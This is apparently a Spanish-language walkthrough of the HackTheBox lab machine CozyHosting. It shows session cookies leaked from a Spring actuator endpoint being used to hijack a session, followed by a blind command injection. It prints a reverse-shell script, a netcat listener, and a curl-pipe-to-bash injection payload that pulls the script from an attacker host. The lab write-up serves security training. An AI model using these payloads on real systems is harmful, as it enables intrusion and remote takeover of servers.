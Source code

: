 ![[CozyHosting15.png]]
Nos da el directorio */actuator* http://cozyhosting.htb/actuator

Si entramos, vemos que nos da otros posibles directorios, asi que vamos a ir probando y una vez que entramos al
![[CozyHosting11.png]]
http://cozyhosting.htb/actuator/sessions
![[CozyHosting10.png]]
Nos da lo que serian unas cookies de sesion para el usuario kanderson

*66284B32C890C19F3225FFBA929C57A0	*
*8619210BF73587A8503EF4AD0398883E*	
Usuario: *kanderson*

Vamos a ir a http://cozyhosting.htb/login y vamos a cambiar nuestra cookie de sesion apretando *CTRL + SHIFT + I* y cambiando el valor de la cookie
![[CozyHosting12.png]]


---------
# [[Command Injection]]
La inyeccion es a ciegas, por lo que si pones un comando que te tire un output por ejemplo *;whoami* no lo vas a ver
![[CozyHosting16.png]]
Asi que creamos un archivo *rev.sh* para enviarnos una revershell

Contenido del archivo *rev.sh*
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.15/443 0>&1'
```
![[CozyHosting20.png]]
Mientras estamos en escucha con [[nc -nlvp 443]] con el comando `nc -nlvp 443` para recibir la [[Reverse shell]] y con [[python3 -m http.server]] con el comando `python3 -m http.server 80` levantando un servidor de python para que se descargue el *rev.sh*

![[CozyHosting18.png]]

Vamos a poner el payload ``test;curl${IFS}http://10.10.16.15/rev.sh|bash;`` con *${IFS}* para inyectar los espacios en el payload, ya que si ponemos algun espacio en el comando, nos va a aparecer un error
![[Cozyhosting35.png]]

Ponemos el payload, y ya vamos a recibir la [[Reverse shell]]
![[CozyHosting19.png]]


![[CozyHosting17.png]]
Ya ganamos acceso como el usuario *app*

---